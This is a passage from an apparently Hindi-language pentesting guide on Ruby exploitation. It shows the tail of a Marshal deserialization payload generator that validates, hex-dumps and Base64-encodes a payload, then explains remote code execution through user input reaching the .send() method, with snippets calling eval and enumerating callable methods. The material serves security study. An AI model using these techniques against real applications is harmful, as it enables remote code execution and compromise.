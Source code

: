 ```ruby
puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
pipe.print payload
pipe.close_write
puts pipe.gets
puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
अन्य RCE श्रृंखला जो Ruby On Rails का शोषण करती है: [https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)

### Ruby .send() विधि

जैसा कि [**इस सुरक्षा रिपोर्ट**](https://starlabs.sg/blog/2024/04-sending-myself-github-com-environment-variables-and-ghes-shell/) में समझाया गया है, यदि कुछ उपयोगकर्ता का असंसाधित इनपुट एक ruby ऑब्जेक्ट की `.send()` विधि तक पहुँचता है, तो यह विधि ऑब्जेक्ट के किसी भी अन्य विधि को किसी भी पैरामीटर के साथ **आमंत्रित** करने की अनुमति देती है।

उदाहरण के लिए, eval को कॉल करना और फिर ruby कोड को दूसरे पैरामीटर के रूप में देना मनमाने कोड को निष्पादित करने की अनुमति देगा:

{% code overflow="wrap" %}
```ruby
<Object>.send('eval', '<user input with Ruby code>') == RCE
```
{% endcode %}

इसके अलावा, यदि **`.send()`** का केवल एक पैरामीटर हमलावर द्वारा नियंत्रित है, जैसा कि पिछले लेख में उल्लेख किया गया है, तो किसी भी ऐसे ऑब्जेक्ट के मेथड को कॉल करना संभव है जिसे **आर्गुमेंट्स की आवश्यकता नहीं है** या जिसके आर्गुमेंट्स के **डिफ़ॉल्ट मान** हैं।\
इसके लिए, ऑब्जेक्ट के सभी मेथड्स को **गिनना संभव है ताकि कुछ दिलचस्प मेथड्स मिल सकें जो उन आवश्यकताओं को पूरा करते हैं**।

{% code overflow="wrap" %}
```ruby
<Object>.send('<user_input>')

# This code is taken from the original blog post
# <Object> in this case is Repository
## Find methods with those requirements
repo = Repository.find(1)  # get first repo
repo_methods = [           # get names of all methods accessible by Repository object
repo.public_methods(),
repo.private_methods(),
repo.protected_methods(),
].flatten()

repo_methods.length()      # Initial number of methods => 5542

## Filter by the arguments requirements
candidate_methods = repo_methods.select() do |method_name|
[0, -1].include?(repo.method(method_name).arity())
end
candidate_methods.length() # Final number of methods=> 3595
```
{% endcode %}